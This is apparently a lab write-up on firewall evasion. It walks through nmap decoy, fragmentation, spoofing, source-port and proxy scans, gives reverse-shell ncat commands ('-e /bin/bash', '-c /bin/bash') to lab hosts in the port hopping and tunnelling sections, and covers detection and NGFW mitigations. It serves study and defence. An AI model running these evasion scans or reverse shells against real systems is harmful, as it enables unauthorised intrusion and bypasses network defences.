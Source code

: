 # Firewall Evasion

A firewall is software or hardware that monitors the network traffic and compares it against a set of rules before passing or blocking it. One simple analogy is a guard or gatekeeper at the entrance of an event. This gatekeeper can check the ID of individuals against a list of allowed individuals before letting them enter (or leave).

![Pasted image 20240920140126](https://github.com/user-attachments/assets/e35edcc5-908a-4162-a05a-39b6ef3b888c)

Different types of firewalls are capable of inspecting various packet fields; however, the most basic firewall should be able to inspect at least the following fields:

+ Protocol
+ Source Address
+ Destination Address

Depending on the protocol field, the data in the IP datagram can be one of many options. Three common protocols are:

+ TCP
+ UDP
+ ICMP

![Pasted image 20240920140306](https://github.com/user-attachments/assets/d3494f55-000e-4af1-aec2-5cfb24f0853c)

In the case of TCP or UDP, the firewall should at least be able to check the TCP and UDP headers for:

+ Source Port Number
+ Destination Port Number

![Pasted image 20240920140426](https://github.com/user-attachments/assets/08e838e9-c9da-4da6-ab47-031de5b174e9)

In traditional firewalls (packet-filtering firewalls), everything is allowed and blocked mainly based on the following:

+ Protocol, such as TCP, UDP, and ICMP
+ IP source address
+ IP destination address
+ Source TCP or UDP port number
+ Destination TCP or UDP port number

### Scope:

While firewalls are crucial for network security and provide significant protection, they aren’t foolproof.In this exercise, I will go over several ways to evade a firewall. I will cover the following:

<details>
<summary><h3>Incomplete TCP Handshake<h3></summary>

The 3-way handshake is the process used to establish a TCP connection between a client and a server. It involves three steps: SYN, SYN-ACK, and ACK.  A half-open connection occurs when a connection is initiated but not fully established. 

![Pasted image 20240920150311](https://github.com/user-attachments/assets/76b0924e-ad3f-41be-91aa-b4c4a39b71e4)

Here I will be utilizing nmap to send half open connections to my target IP 10.10.100.39 (Windows Firewall):

```
nmap  -sS -F 10.10.100.39 -nnvvv
```

Based on the output of the scan, I was able to identify that TCP port 5357 was open associated with the service WSDAPI:

![Pasted image 20240920145403](https://github.com/user-attachments/assets/619458cd-ce8c-4d8d-b26f-209566273074)

Looking at the nmap scan traffic in Wireshark, I was able to see the behavior of the scan in real time:

![Pasted image 20240920145126](https://github.com/user-attachments/assets/33b349ad-f2df-4051-987b-edcf71e98661)

Here I can see that IP address 10.10.100.104 has generated and sent around 200 packets. The -F option in the command limits the scan to the top 100 common ports; moreover, each port is sent a second SYN packet if it does not reply to the first one. The source port number is chosen at random but is fixed. In the screenshot, you can see it is 63871

The total length of the IP packet is 44 bytes. There are 20 bytes for the IP header, which leaves 24 bytes for the TCP header. No data is sent via TCP.

Other factors observed in the traffic:

+ The Time to Live (TTL) is is changing in each packet.
+ The IP identification is changing is each packet
+ No errors are introduced in the checksum.

In this scenario, nmap sends a SYN request to the target, if the port is open, the target responds with a SYN-ACK packet, acknowledging the request to establish a connection. Normally, in a ligitimate request, the scanner would then complete the request with an ACK to complete the handshake. In this case, the target host has already shown which port is open. If nmap were to complete the connection, it would then have to worry about closing it. Instead of sending an ACK back to complete the handshake, the scanner sends an RST packet to close the connection prematurely.

In the screenshot below, we see the bahavior describe above for port 5357 which was previously identified:

![Pasted image 20240920150341](https://github.com/user-attachments/assets/eafc0b47-59aa-4925-8289-8439f6a8068c)

Nmap will classify a port as filtered if it receives specific ICMP error messages in response as seen in the screenshot below:

![Pasted image 20240920150957](https://github.com/user-attachments/assets/e1765030-7234-439f-a99f-399779d2af0c)

> [!NOTE]  
> Below is a summary of how nmap will interpret responses to a SYN probe:
> ![Pasted image 20240920151122](https://github.com/user-attachments/assets/744cf0e9-d6d7-4618-b3b3-1215258f27e0)

</details>

<details>
<summary><h3>Evasion via Decoy Scan<h3></summary>

You can conceal the scan using decoys. In an Nmap decoy scan, multiple decoy IP addresses are used alongside the real IP address to obfuscate the source of the scan. This makes it challenging for both the firewall and the target host to identify the origin of the port scan. 

Here I will use the following command with the decoy option to "hide" my real IP address:

```
nmap -sS -Pn -D 192.168.91.10,192.168.91.15,192.168.91.128 -F 192.168.91.130
```

After initiating the scan, I can see that it completes and that the target has a number of open ports:

![Pasted image 20240921123114](https://github.com/user-attachments/assets/42da0b3f-e28f-4619-992f-be24308e6307)

While looking at the Wireshark capture of the scan, I can see the expected behavior. Here we see that all 3 of the IP addresses in the command are reaching out with a SYN request to the host:

![Pasted image 20240921123403](https://github.com/user-attachments/assets/5550db8d-d32b-4240-b9f6-2ac22cae96d7)

However, one thing that we can note from the traffic above, although there are 3 different IP addresses sending SYN requests, only 1 sends the RST (the real IP). 

Another example of this is by setting Nmap to use random source IP addresses instead of explicitly specifying them:

```
map -sS -Pn -D RND,RND,192.168.91.128 -F 192.168.91.130
```

![Pasted image 20240921124912](https://github.com/user-attachments/assets/551b29ec-e9be-40a0-ac69-6fec116d136f)

### Finding the real IP behind the Decoy scan:

As noted earlier, only the real IP is linked to the RST packet. Another method for identifying the true source is that the target will send RST packets exclusively to this real IP address:

![Pasted image 20240921123604](https://github.com/user-attachments/assets/e07821b9-850d-4918-9447-6687f2277828)

When the target responds to the initial SYN requests, it may send back ACK packets if the port is open, but these responses will only reach the actual source IP. 

![Pasted image 20240921124326](https://github.com/user-attachments/assets/5a732df1-4476-46ac-a1a4-1ac630870b3d)

Here is a view of this behavior wiht a sinfle IP:

![Pasted image 20240921124444](https://github.com/user-attachments/assets/4ad665af-995a-4935-9834-185bec36878f)

### Summary:

Firewalls often look for unusual patterns of activity. A decoy scan can generate a seemingly normal level of traffic from various sources, making it less likely for the real scan to be flagged as suspicious.

In some cases, decoy scans can utilize IP spoofing techniques to make the decoy addresses appear legitimate, further complicating the firewall's ability to identify the real source.

</details>

<details>
<summary><h3>Evasion via HTTP Proxy<h3></summary>

For this scenario I set up a Netcat HTTP Proxy for NMAP:

![Pasted image 20240922143053](https://github.com/user-attachments/assets/c6d5437f-9d25-45f6-b235-d8b7dd290ad4)

I set it up and had it configured to listen on port 8081:

```
ncat -vv --listen 8081 --proxy-type http
```

![Pasted image 20240921201927](https://github.com/user-attachments/assets/9072c443-7501-4949-a0fc-cb8dd0ce8b06)

Verified that it was indeed listening:

![Pasted image 20240921201907](https://github.com/user-attachments/assets/297099b9-ed7a-4112-9ee0-b6a81f3b8975)

Next I performed a TCP Connect Scan (-sT):

A TCP Connect Scan is similar to that of a SYN scan. However, instead of aborting the half-open connection with a RST packet, it attempts to establish a full TCP connection with each port on the target machine. After the connection is successful, the scanner wil terminates the connection immediately with a RST packet. Below is a image to represent tis behavior:

<img width="717" alt="Screenshot 2024-10-25 at 8 59 04 PM" src="https://github.com/user-attachments/assets/27ebb0e2-af9c-4930-be8f-7f762b63bf94">

>#### Note: To use the --proxies option with Nmap, you need to include at least two scan techniques, such as -sT, -A, -sC, or -sV. Otherwise, Nmap will not be able to route the traffic through the proxy.

```
nmap  -sC -sV -Pn -p80  --proxies http://192.168.91.131:8081 192.168.91.130 --packet-trace -nnvvvv
```

![Pasted image 20240921204322](https://github.com/user-attachments/assets/62e12b62-9912-43bf-a773-2afd073c998e)

Traffic from the local nmap scanner:

![Pasted image 20240921204246](https://github.com/user-attachments/assets/e0e3f004-497a-4744-9a02-1b9fc9d74cf1)

I also used the `--packet-trace` option to information about the state of the connection:
 
![Pasted image 20240921211331](https://github.com/user-attachments/assets/3237440f-55fc-4d97-be9c-437237eb8eca)

Here I can see information on the target host such as open ports and running services:

![Pasted image 20240921211420](https://github.com/user-attachments/assets/a08cf613-21f6-4859-9304-d9cf94846c15)

### Detecting Scans via Proxy Servers:

Although there isn't a 100% reliable way to achieve this, there are indicators that can be seen in the headers that when present, can suggest that the request was routed from a proxy server:

+ via
+ forwarded
+ x-forwarded-for
+ client-ip: 

In trying to see how the traffic looks on the receiving end, I went to check the Wireshark traffic on the IIS (target) server: 

![Pasted image 20240921203356](https://github.com/user-attachments/assets/21462aab-9c7d-4186-97dc-a3a7c513aca9)

The CONNECT method is an HTTP request method used primarily to establish a tunnel to a server through an HTTP proxy. Taking a closer look into the traffic, I was able to see that here:

![Pasted image 20240921203332](https://github.com/user-attachments/assets/bb730138-3adf-44cf-ba54-ee4595caab34)

![Pasted image 20240921205656](https://github.com/user-attachments/assets/f58f190f-ec6f-455a-ab4f-2384592fcbc0)

### Summary:

In this exercise, I was successfully able to scan node 192.168.91.130 and detect it's operating system (Windows) and the service running (IIS Web Server) via a proxy sever using Nmap.

</details>

<details>
<summary><h3>Evasion via Mac Spoofing<h3></summary>

![Pasted image 20240922170340](https://github.com/user-attachments/assets/56585a8a-ff25-44c5-9cc5-52c07312abb5)

MAC spoofing is a technique often used by attackers to change the MAC address of their device to match that of another device on the network. This vulnerability allows them to evade security measures like MAC filtering and MAC-based access controls. Mac Spoofing can circumvent MAC filtering, allowing them to gain unauthorized access to the network by pretending to be a trusted device.

Below is a look at the frame and where both the destination and source MAC addresses can be found:

![Pasted image 20240921231109](https://github.com/user-attachments/assets/700bb0b7-b9d9-4682-98f3-ed9d2d3c7c5b)

Nmap allows you to spoof your MAC address using the option `--spoof-mac MAC_ADDRESS`. However, there are limitations. Spoofing works effectively only if your system is on the same network segment as the target host. If you are on a different network segment the target system will not receive your packets. Spoofing your MAC address to match a trusted device can potentially allow you to exploit vulnerabilities or gain unauthorized access.

In the exercise, I used the command below:

```
nmap -sS -Pn -p80 --spoof-mac deadbeef 192.168.91.130 --packet-trace --disable-arp-ping -nnvv
```

By using this command, I can see that my MAC address now includes `deadbeef`:

![Pasted image 20240921230527](https://github.com/user-attachments/assets/facb1002-5280-4bd5-89b5-732824af73ce)

In the Wireshark capture, I was also able to confirm that the MAC address had changed:

![Pasted image 20240921230718](https://github.com/user-attachments/assets/a251a877-a9e8-4e85-ab34-90d28bc730be)

### Warning Signs/Detection of MAC Spoofing Attacks:

Below is an example of how MAC spoofing looks in the network traffic. Here I analyzed traffic between the same 2 IP addresses, however, in the highlighted piece we can see that the MAC address changes:

![Pasted image 20240922171738](https://github.com/user-attachments/assets/bb17da92-de21-4b55-b473-710b8a522097)

Here are various red flags that may point to a MAC spoofing attack on a network. Some of these warnings include:

+ Duplicate MAC addresses
+ Unknown MAC addresses
+ Unusual ARP Activity
+ Unexpected network failures 

</details>

<details>
<summary><h3>Evasion via Fixed Port Number<h3></summary>

Scanning from a specific source port can be advantageous if you find that firewalls permit incoming packets from certain ports, such as 53 or 80. This strategy can help you navigate around firewall restrictions more effectively. 

### Firewall Rule

To get started, I created a firewall rule to allow traffic on the IIS server from a specific source port. To do this, I navigated to the Windows host and created a new firewall rule:

![Pasted image 20240922150229](https://github.com/user-attachments/assets/4613d30d-882b-471d-a75f-103032a94dbc)

![Pasted image 20240922150315](https://github.com/user-attachments/assets/4a644684-06b5-457b-999d-4b53d3fa4cab)

I then configured the rule do that the only allow traffic from specific source ports (8000 and 9999):

![Pasted image 20240922150726](https://github.com/user-attachments/assets/ba81035e-031a-48ea-a96d-d556854be2fa)

This rule will apply to all IPs:

![Pasted image 20240922150815](https://github.com/user-attachments/assets/5251819b-ec88-428d-9c58-631921b48f5d)

Allowed the connection:

![Pasted image 20240922150902](https://github.com/user-attachments/assets/7077eb7d-95b7-4ec6-8fc5-4ad6d1e62051)

![Pasted image 20240922150941](https://github.com/user-attachments/assets/eb58b0f1-ca6e-485d-9203-16436dcde6a1)

Named the rule:

![Pasted image 20240922151127](https://github.com/user-attachments/assets/4a39870e-4087-449e-8325-d1aa9ca6fab4)

I then confirmed the rule was in place:

![Pasted image 20240922151204](https://github.com/user-attachments/assets/fd9dee17-0ad4-437a-a9cf-cb566d716d9a)

### Testing

Now that the rule is configured, I tested against the firewall rule with Nmap:

```
nmap -sS -Pn -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922151449](https://github.com/user-attachments/assets/c861c976-65e3-4dba-978e-793537d0725f)

Based on the output from the scan, the port is showing as filtered since the traffic will be only allowed if its coming from a specific port number. I then ran another scan but, this time specifying a source port using the option `--source-port`:

```
nmap -sS -Pn --source-port 9999 -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922151741](https://github.com/user-attachments/assets/ce251585-a9d1-4647-8de4-979c3d04fe0e)

Based on the output, I can now see that the port is showing as open. 

</details>

<details>
<summary><h3>Evasion via Fragmentation, MTU, and Data Length<h3></summary>


Another way that you can evade a firewall is by controlling the packet size. By fragmenting packets, if neither the firewall nor the IDS/IPS reassemble the packet, it will most likely let it pass. This will make it so taht the target system will reassemble and process it.

### Fragmenting (8 Bytes)

One easy way to fragment your packets would be to use the -f option. This option will fragment the IP packet to carry only 8 bytes of data. Normally, the IP packets sent during a Nmap TCP port scan will hold 24 bytes, the TCP header. By limiting the IP data to 8 bytes, the 24 bytes of the TCP header will be divided across 3 IP packets.

```
nmap -sS -Pn -f 8  -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922154916](https://github.com/user-attachments/assets/e602a2d0-1c0d-40d1-b10e-972ce0b07f29)

Taking a look at Wireshrark and the traffic generated by the scan, I was able to confirm the behavior and the see the fragmentation:

![Pasted image 20240922154837](https://github.com/user-attachments/assets/ced0ab71-ca8e-4a3b-b29e-0190b8d74831)

### Fragmenting (16 Bytes):

Another option is using `-ff` which limits the IP data to 16 bytes. By running the following command `nmap -sS -Pn -ff -F MACHINE_IP`, the expectation is that the 24 bytes of the TCP header will be divided between two packets because `-ff` sets a maximum limit of 16 bytes.

```
nmap -sS -Pn -ff -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922155423](https://github.com/user-attachments/assets/5a09bce4-0f82-4c20-aeb9-a6343c80711a)

After running the scan, I could see the fragmentation and confirmed the size of 16 Bytes:

![Pasted image 20240922155525](https://github.com/user-attachments/assets/37d481e7-0850-4bfe-84cc-4c8f86045e7f)

### Fragmenting MTU:

Another effective way to fragment packets is by adjusting the MTU. In Nmap, the --mtu VALUE option specifies the number of bytes per IP packet, excluding the IP header size. The MTU value must always be a multiple of 8. It's important to know that MTU refers to the largest packet size that can be transmitted over a specific link-layer connection. Ethernet has an MTU of 1500 and is to not be confused with the `--mtu` option in nmap. 

Running Nmap with the option `--mtu 8` will be identical to using option `-f ` since in both the IP data will be limited to 8 bytes.

```
nmap -sS -Pn -mtu 8 -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922155925](https://github.com/user-attachments/assets/741d5d85-2b87-415b-86a7-df01388ce58f)

In Wireshark, I confirmed that the the packets were indeed fragmented, 8 bytes in size, and had the more fragments bit set:

![Pasted image 20240922155907](https://github.com/user-attachments/assets/e15a7300-4130-4730-b6b1-b895178bfb02)

### Packets with Specific Length:

There may be times where the firewall or IDS/IPS is able to detect and block your activities based on the size of the packets being sent. You can enhance the stealth of your port scanning by specifying a particular data length. Nmap allows you to set the length of the data carried within the IP packet using `--data-length VALUE`, the length should be a multiple of 8. As an example, I will be using a length of 64:

```
nmap -sS -Pn --data-length 64  -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922162841](https://github.com/user-attachments/assets/a92f7c89-c3da-4a1c-afe0-9b31b6aafd85)

I was also able to verify that the behavior wasjust as expected in Wireshark:

![Pasted image 20240922162745](https://github.com/user-attachments/assets/e1d6f488-5de0-4f26-83bb-c7eb6bdc7007)

</details>

<details>
<summary><h3>Evasion via Bad Checksum<h3></summary>

###  Wrong Checksum:

Another method that can be used to evade a firewall is to intentionally send a packet with a bad checksum. There are systems that will drop a packet with a bad checksum, however, there are others that won’t. To do this, nmap has the option `--badsum`:

```
nmap -sS -Pn --badsum -p80,3389 192.168.91.130 -nnvvv --packet-trace
```

![Pasted image 20240923113056](https://github.com/user-attachments/assets/ef80ed72-d799-4e50-ab27-0dc743ad0710)

Based on the output, we can see the that ports (80 and 3389) are being filtered. Overall, the results will depend significantly on the security measures in place on the target system and the nature of the network traffic. Monitoring the responses and comparing them to typical behavior can provide valuable insights into the security posture of the target environment. 

</details>

<details>
<summary><h3>Evasion via Modifying Header Fields<h3></summary>

Nmap allows you to control various header fields that might help evade the firewall. You can:

+ You can set the TTL value with the `--ttl` option.
+ Send packets with specified IP options:
+ Use `--badsum` to send packets with incorrect TCP/UDP checksums.

I will go over TTL and IP options below:

### Set TTL :

The `--ttl` option in Nmap autellows you to specify TTL value for the packets sent during a scan. TTL is a field in the IP header that specifies the maximum number of hops a packet can take before it is discarded. Each router that forwards the packet decrements the TTL value by one. This option might be useful if you think the default TTL exposes your port scan activities.

```
nmap -sS -Pn --ttl 1 -p80,3389 192.168.91.130 -nnvvv --packet-trace
```

![Pasted image 20240923105624](https://github.com/user-attachments/assets/75d7f9ea-d3be-4ad6-8124-e8186a6143eb)

Based on the output above, I was able to see the open ports. 

![Pasted image 20240923105749](https://github.com/user-attachments/assets/fa10c75f-ab9b-4554-a4f8-cb24a9945cd9)

Viewing the traffic in Wireshark, I was able to confirm the TTL behavior. In this case, the TTLS is showing 1 as specified in the command above. 

### Set IP Options:

The IP Options field is a flexible part of the IP header that allows for additional features or instructions to be specified for packet processing. Nmap lets you customize the IP Options field using the `--ip-options HEX_STRING` option. The 'HEX_STRING` option defines the exact bytes that will populate the IP Options field. Each byte is expressed in hexadecimal format, where HH represents two hexadecimal digits. For example, the byte 0x1A would be written as \x1A.

A shortcut provided by Nmap is using the letters to make your requests:

+ R to record-route.
+ T to record-timestamp.
+ U to record-route and record-timestamp.
+ L for loose source routing and needs to be followed by a list of IP addresses separated by space.
+ S for strict source routing and needs to be followed by a list of IP addresses separated by space.

The Record Route option is one of the IP options that can be specified in the IP header. It allows the sender to keep track of the route taken by the packet through the network, recording the IP addresses of the routers that forward the packet. It can be helpful if you want to try to make your packets take a particular route to avoid a specific security system.

Here I used this option:

```
nmap -sS -Pn --ip-options R -p80,3389 192.168.91.130 -nnvvv --packet-trace
```

![Pasted image 20240923112809](https://github.com/user-attachments/assets/e571ab7e-9fc4-40ff-a835-65a46e6b3690)

Below are is the scan related traffic where I was able to see that it did have the IP option R available:

![Pasted image 20240923112706](https://github.com/user-attachments/assets/61da2c44-109c-4251-92cb-2f5bb7a1814a)

</details>

<details>
<summary><h3>Evasion Using Port Hopping<h3></summary>

There are three common firewall evasion techniques, they are:

+ Port hopping
+ Port tunneling
+ Use of non-standard ports

Port hopping is a technique where a system rapidly switches between different network ports for communication. This can serve various purposes, including enhancing security, evading detection, or optimizing network performance. Port hopping can be used to avoid detection by rapidly changing ports, which in turn can reduce the likelihood of being identified.

In the diagram below, the client tries different ports to reach the server until it discovers a destination port that is not being blocked by the firewall.

![Pasted image 20240924211328](https://github.com/user-attachments/assets/ce0ff043-9721-4957-8f62-aadef3175248)

### Getting Started

First I need to set up a listening port on the client:

+ -l listens for incoming connections
+ -v provides verbose details (optional)
+ -n does not resolve hostnames via DNS (optional)
+ -p specifies the port number to use

```
ncat -lvnp 21
```

![Pasted image 20240924133907](https://github.com/user-attachments/assets/eff7886b-ecbc-4170-a582-4ef72377c726)

Based on the output, it is now listening on port 21. 

### Connecting to the server:

Next, I performed a network trace from the client reaching the server on port 8080:

![Pasted image 20240924134217](https://github.com/user-attachments/assets/0039045a-ae64-4763-90f1-6262db7c7184)

In this scenario, I'm going to be exploiting a vulnerable service that allows remote code execution (RCE) or a misconfiguration on the web application running on port 8080 and will be able to execute code or command of my choice.

```
ncat 10.10.142.3 21 -c /bin/bash
```

![Pasted image 20240924134503](https://github.com/user-attachments/assets/77561853-f084-400a-8585-8f77461eb83f)

The command was executed successfully. I was able to the HTTP POST and ACK coming from the server:

![Pasted image 20240924134217](https://github.com/user-attachments/assets/e733f554-52c1-48a3-830f-9088e3e7b3c8)

Detailed information about the HTTP POST:

![Pasted image 20240924134054](https://github.com/user-attachments/assets/e2ab77dd-b3bd-4309-82a7-803c2397e8cb)

### Detecting a reverse shell from the server:

Using the command below will display all established connections, and the the associated process or program. By filtering for established connections, it focuses on active connections:

```
netstat -anp | grep ESTABLISHED 
```

Here I was able to see the network traffic coming from the server:

![Pasted image 20240924134356](https://github.com/user-attachments/assets/3f0787b6-3a76-47a4-9c85-cf34ded5b536)

Based on the traffic, I can see that the server's firewall is allowing port 21 outbound.  

</details>

<details>
<summary><h3>Evasion Using Port Tunnelling<h3></summary>

Port tunneling involves wrapping data from one protocol within another protocol. This can be used to send traffic over a network that might otherwise block or filter the original protocol.

The diagram below is an example:

![Pasted image 20240924211930](https://github.com/user-attachments/assets/b0c7257e-5a3b-4578-89b0-cac9c37b705f)

### Getting started

I began by using ncat to create listening port 21 on the client:

```
ncat -lvnp 21
```

![Pasted image 20240924153722](https://github.com/user-attachments/assets/0a86dada-cfa9-4f16-8e46-4fef33e8a5e7)

Next, I tried accessing the web server and passing the Netcat command to spawn a reverse shell:

```
ncat 10.10.25.138  21 -e /bin/bash
```

![Pasted image 20240924160925](https://github.com/user-attachments/assets/3ae5affe-ea8f-435c-a0a1-ca5806c718c1)

After, I was able to list and view available services/ports that are opened:

![Pasted image 20240924160848](https://github.com/user-attachments/assets/3dbd9dc5-ac4a-488a-9ccf-f5efdd619848)

Looking at Wireshark, the client can't reach the server over the network on port 80 or 8008.

![Pasted image 20240924163354](https://github.com/user-attachments/assets/de869533-6b2f-47bf-a04d-5cd4c9cdd962)

Since I'm connected to the server via a reverse shell, I can open the local webserver running on port 80:

```
ncat -lvnp 8008 -c "ncat 10.10.90.19 80"
```

![Pasted image 20240924163735](https://github.com/user-attachments/assets/be94001b-b074-49f1-9359-c598cf6e7f4b)

Now I'm able to reach the server on port 8008 , I can se some 200 codes coming from the web app:

![Pasted image 20240924163942](https://github.com/user-attachments/assets/ecb4a1ec-ea2f-47af-aee7-419875cccee0)

Details on the 200 OK code:

![Pasted image 20240924164127](https://github.com/user-attachments/assets/05f29650-4685-4631-aba3-9e379795630d)

The connection state at the web server indicates that the ports are bound.

![Pasted image 20240924164556](https://github.com/user-attachments/assets/a34ec769-abaa-4668-b082-276333c3b4bb)

</details>

<details>
<summary><h3>Evasion via using a non-standard port<h3></summary>

Creating a backdoor via the specified port number that lets you interact with the Bash shell.

-e or --exec executes the given command

/bin/bash location of the command we want to execute

Considering the case that we have a firewall, it is not enough to use ncat to create a backdoor unless we can connect to the listening port number. Moreover, unless we run ncat as a privileged user, root, or using sudo, we cannot use port numbers below 1024.


### Mitigations:

Next-Generation Firewall (NGFW:

Traditional firewalls, such as packet-filtering firewalls, expect a port number to dictate the protocol being used and identify the application. Consequently, if you want to block an application, you need to block a port. Unfortunately, this is no longer valid as many applications camouflage themselves using ports assigned for other applications. 


![Pasted image 20240924210345](https://github.com/user-attachments/assets/fcdd09d7-b8dc-4efd-813a-74e6b9305aa9)



In other words, a port number is no longer enough nor reliable to identify the application being used. Add to this the pervasive use of encryption, for example, via SSL/TLS.


![Pasted image 20240924210137](https://github.com/user-attachments/assets/356b1515-1882-496a-9da8-27e824e290fa)

Next-Generation Firewall (NGFW) is designed to handle the new challenges facing modern enterprises. For instance, some of NGFW capabilities include:

Integrate a firewall and a real-time Intrusion Prevention System (IPS). It can stop any detected threat in real-time.

Identify users and their traffic. It can enforce the security policy per-user or per-group basis.

Identify the applications and protocols regardless of the port number being used.

Identify the content being transmitted. It can enforce the security policy in case any violating content is detected.

Ability to decrypt SSL/TLS and SSH traffic. For instance, it restricts evasive techniques built around encryption to transfer malicious files.

A properly configured and deployed NGFW renders many attacks useless.

</details>






